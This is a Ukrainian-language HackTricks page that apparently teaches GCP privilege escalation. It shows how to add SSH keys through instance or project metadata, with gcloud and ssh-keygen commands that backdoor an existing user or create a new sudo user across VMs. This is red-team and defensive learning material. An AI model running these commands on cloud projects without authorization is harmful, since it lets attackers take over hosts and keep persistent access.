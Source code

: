 # GCP - Додати користувацькі SSH метадані

## GCP - Додати користувацькі SSH метадані

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

### Модифікація метаданих <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Модифікація метаданих на екземплярі може призвести до **значних ризиків безпеки, якщо зловмисник отримає необхідні дозволи**.

#### **Включення SSH ключів у користувацькі метадані**

На GCP, **Linux системи** часто виконують скрипти з [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Критичним компонентом цього є [демон облікових записів](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), який призначений для **регулярної перевірки** кінцевої точки метаданих екземпляра на **оновлення авторизованих SSH публічних ключів**.

Отже, якщо зловмисник може модифікувати користувацькі метадані, він може змусити демон знайти новий публічний ключ, який буде оброблений і **інтегрований у локальну систему**. Ключ буде додано до файлу `~/.ssh/authorized_keys` **існуючого користувача або потенційно створити нового користувача з привілеями `sudo`**, залежно від формату ключа. І зловмисник зможе скомпрометувати хост.

#### **Додати SSH ключ до існуючого привілейованого користувача**

1. **Перевірте існуючі SSH ключі на екземплярі:**
*   Виконайте команду для опису екземпляра та його метаданих, щоб знайти існуючі SSH ключі. Відповідний розділ у виході буде під `metadata`, зокрема ключ `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Зверніть увагу на формат SSH ключів: ім'я користувача передує ключу, розділене двокрапкою.
2. **Підготуйте текстовий файл для метаданих SSH ключа:**
* Збережіть деталі імен користувачів та їх відповідних SSH ключів у текстовому файлі з назвою `meta.txt`. Це важливо для збереження існуючих ключів під час додавання нових.
3. **Згенеруйте новий SSH ключ для цільового користувача (`alice` у цьому прикладі):**
*   Використовуйте команду `ssh-keygen` для генерації нового SSH ключа, переконавшись, що поле коментаря (`-C`) відповідає цільовому імені користувача.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Додайте новий публічний ключ до `meta.txt`, імітуючи формат, знайдений у метаданих екземпляра.
4. **Оновіть метадані SSH ключа екземпляра:**
*   Застосуйте оновлені метадані SSH ключа до екземпляра, використовуючи команду `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Отримайте доступ до екземпляра, використовуючи новий SSH ключ:**
*   Підключіться до екземпляра за допомогою SSH, використовуючи новий ключ, отримуючи доступ до оболонки в контексті цільового користувача (`alice` у цьому прикладі).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Створіть нового привілейованого користувача та додайте SSH ключ**

Якщо не знайдено цікавого користувача, можна створити нового, якому будуть надані привілеї `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH ключі на рівні проекту <a href="#sshing-around" id="sshing-around"></a>

Можливо розширити доступ до SSH для кількох віртуальних машин (VM) у хмарному середовищі, **застосувавши SSH ключі на рівні проекту**. Цей підхід дозволяє доступ до SSH до будь-якого екземпляра в проекті, який не заблокував SSH ключі на рівні проекту. Ось узагальнений посібник:

1. **Застосуйте SSH ключі на рівні проекту:**
*   Використовуйте команду `gcloud compute project-info add-metadata`, щоб додати SSH ключі з `meta.txt` до метаданих проекту. Ця дія забезпечує визнання SSH ключів на всіх VM у проекті, якщо тільки VM не має увімкненої опції "Блокувати SSH ключі на рівні проекту".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH до екземплярів, використовуючи ключі на рівні проекту:**
* З ключами на рівні проекту ви можете SSH до будь-якого екземпляра в проекті. Екземпляри, які не блокують ключі на рівні проекту, приймуть SSH ключ, надаючи доступ.
* Прямий метод для SSH до екземпляра - це використання команди `gcloud compute ssh [INSTANCE]`. Ця команда використовує ваше поточне ім'я користувача та SSH ключі, встановлені на рівні проекту, для спроби доступу.

## Посилання

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
